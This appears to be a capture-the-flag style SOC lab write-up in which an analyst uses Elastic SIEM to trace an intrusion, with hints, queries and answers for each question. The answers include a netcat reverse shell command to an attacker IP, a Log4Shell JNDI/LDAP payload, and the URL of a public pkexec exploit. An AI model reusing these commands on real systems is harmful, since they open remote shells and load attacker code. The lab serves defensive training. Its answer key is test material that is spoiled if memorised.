




**ElasticCase Lab**
I. Scenario
- An attacker was able to trick an employee into downloading a suspicious file and running it. The attacker compromised the system, along with that, The Security Team did not update most systems. The attacker was able to pivot to another system and compromise the company. As a SOC analyst, you are assigned to investigate the incident using Elastic as a SIEM tool and help the team to kick out the attacker.

**1.Who downloads the malicious file which has a double extension?**
-	Have you checked the Malware Detection Alerts in Elastic Security? Start there to identify any suspicious files.
-	Security ➝ Alerts ➝ in Count Section Filter in 'Malware Detection Alerts'. Look for the process related to '*.pdf.exe' and check the user.name field to identify the user.
            

Answer: **DESKTOP-Q1SL9P2**

**2.What is the hostname he was using?**
-	Look at the same event that shows the malicious file download. The hostname can be found in the host.name field.
            

    Answer: **ahmed**

**3.What is the name of the malicious file?**
-	Review the detection alerts; the name of the suspicious file should stand out.
            
            

    Answer: **Acount_details.pdf.exe**

 **4.What is the attacker's IP address?**
-	Use the Analyze event feature to track network activities linked to the suspicious process.
-	Focus on network events from the malware process, and identify the destination IP, which is likely the attacker's IP.
            

**Answer: 192.168.1.10**
 5.	Another user with high privilege runs the same malicious file. What is the username?
-	Look at the detection alerts associated with the malicious file you found. More than one user might have interacted with it.
-	Since you know one user from Q1, look for the other user in the same alert.
            

    Answer: **cybery**
 
**6.The attacker was able to upload a DLL file of size 8704. What is the file name?**
-	Create a query using the file size and extension to identify the DLL file.
-	Use file.size: 8704 and file.extension: 'dll' in your query to find the exact file name.
            
            

    Answer: **mCblHDgWP.dll**

7.	**What parent process name spawns cmd with NT AUTHORITY privilege and pid 10716?**

-	Trace the parent processes of the cmd.exe process
-	Use the query process.name: 'cmd.exe' and process.pid:10716
            

    Answer: **rundll32.exe**

8.	**The previous process was able to access a registry. What is the full path of the registry?**
-	Registry events can be found by tracing the actions of the rundll32.exe process.
-	Inspect the registry access events associated with rundll32.exe to reveal the full registry path.
            

Answer: **HKLM\SYSTEM\ControlSet001\Control\Lsa\FipsAlgorithmPolicy\Enabled**

**9.	PowerShell process with pid 8836 changed a file in the system. What was that filename?**
-	Investigate file modification events related to the PowerShell process with PID 8836.
-	From the 'cmd.exe' process, which initiated the 'powershell.exe' process with PID 8836, examine the file events associated with this PowerShell process.
            

**Query: process.name:"powershell.exe"   and process.pid:8836 and file.name**:*
    Answer: **ModuleAnalysisCache**

**10.	PowerShell process with pid 11676 created files with the ps1 extension. What is the first file that has been created?**
-	Search for file creation events associated with the PowerShell process having PID 11676.
-	Use the .ps1 file extension as a filter to narrow down your search. 
-	The earliest .ps1 file created by the 'powershell.exe' process with PID 11676 will be your answer.
            

    Answer: **__PSScriptPolicyTest_bymwxuft.3b5.ps1**

**11.	What is the machine's IP address that is in the same LAN as a windows machine?**
-	Identify the Windows machine's IP first, then look for other machines in the same subnet.
-	Security ➝ Hosts, Identify the IP of the Windows Machine. Then, use CIDR notation to filter for IPs in the same network range.
            
            

    Answer: **192.168.10.30**

12. **The attacker login to the Ubuntu machine after a brute force attack. What is the username he was successfully login with?**
-	Check the authentication logs for successful login attempts after multiple failures.
-	Look for the first successful login after several failed attempts.
-	**Query : host.name:"ubuntu" and log.file.path :"/var/log/auth.log" and system.auth.ssh.event : "Accepted"  or system.auth.ssh.event : "Failed"**
            

Answer: **salem**

**13.	After that attacker downloaded the exploit from the GitHub repo using wget. What is the full URL of the repo?**

-	Investigate the command-line activities on the compromised account, specifically any use of the wget command to download files.
-	Use a query to filter for events where the wget command was executed. You can focus on the specific user and hostname by using something like: host.name: 'ubuntu' AND user.name: 'salem' AND process.args: wget.

-	After filtering the relevant events, use the **Analyze Event** feature in Kibana to examine the process arguments, which will reveal the full URL of the exploit downloaded from the GitHub repository.
-	Query: user.name:"salem"  and host.name:"ubuntu" and process.args :"wget"
            

    Answer: **https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py**

**14.	After The attacker runs the exploit, which spawns a new process called pkexec, what is the process's md5 hash?**

-	Focus on the processes that were created after the exploit was run. You should look for any new processes related to pkexec.
-	Use a query to search for processes with pkexec in their name or as an argument in the process's command line. This will help you narrow down the exact process that was spawned by the exploit.
-	Once you find the **pkexec** process, use the **Analyze Event** feature or examine the process details to locate the MD5 hash. The hash can typically be found in the event's metadata, specifically under the file information.

-	**Query: host.name:"ubuntu" and process.executable :*pkexec**
            

-	Answer: **3a4ad518e9e404a6bad3d39dfebaf2f6**

**15.	Then attacker gets an interactive shell by running a specific command on the process id 3011 with the root user. What is the command?**
-	Trace the command-line actions following the exploit execution.
-	Use process.pid: 3011 and user.name: 'root'.
-	The command is used to initiate the interactive shell under the root user.
-	Query : **host.name:"ubuntu" and process.pid:3011 and user.name:root**
            

    Answer: **bash -i**

16.	**What is the hostname which alert signal.rule.name: "Netcat Network Activity"?**

-	**Navigate to Security ➝ Alerts in Elastic Security**. Filter in **signal.rule.name: 'Netcat Network Activity'** to filter alerts specifically related to Netcat usage, often linked to network reconnaissance or exploitation.
            

    Answer: **CentOS**

**17.	What is the username who ran netcat?**
-	The same alert event that shows the hostname will also show the username.
-	Review the username context of the 'Netcat Network Activity' alert
            

    Answer: **solr**

**18.	What is the parent process name of netcat?**
-	Look for the parent process that initiated the nc command using Analyze event Feature.
            

    Answer: **java**

**19.	If you focus on nc process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command?**
            

    Answer: **nc -e /bin/bash 192.168.1.10 9999**

20.	**From the previous three questions, you may remember a famous java vulnerability. What is it?**

    Answer: **Log4Shell**

21.	**What is the entire log file path of the "solr" application?**
-	Look for files accessed or created by the java process related to solr.
            

    Answer: **/var/solr/logs/solr.log**

**22.	What is the path that is vulnerable to log4j?**

-	Menu ➝ Analytics ➝ Discover in Kibana and select 'filebeat' as the data source.
-	Use the log.file.path filter with the path you have found and review the search results.
-	The vulnerable path, as indicated in the log messages. You can view the log message by expanding any hits to view more details.
            

    Answer: **/admin/cores**

**23.	What is the GET request parameter used to deliver log4j payload?**

-	Focus on the HTTP GET requests associated with suspicious network activity. Check for any request that includes a parameter which might be used to deliver a payload.
-	Filter events to show GET requests containing URLs with parameters. Look for an unusual parameter within these requests that could be related to exploiting the log4j vulnerability.
-	Analyze the contents of GET requests in the logs for signs of an injected payload. The parameter that is exploited will likely appear near a recognizable malicious payload, possibly in the form of Java Naming and Directory Interface (JNDI) references.
            

    Answer: **foo**

24. **What is the JNDI payload that is connected to the LDAP port?**
-	JNDI payloads are typically visible in network logs, especially in connection with LDAP-related activity. Look for outbound connections to LDAP servers from compromised hosts.
-	Filter for network events involving LDAP traffic. Focus on payloads that include jndi:ldap in the connection details, which are a hallmark of log4j exploit attempts.
            

    Answer: **{foo=${jndi:ldap://192.168.1.10:1389/Exploit}}**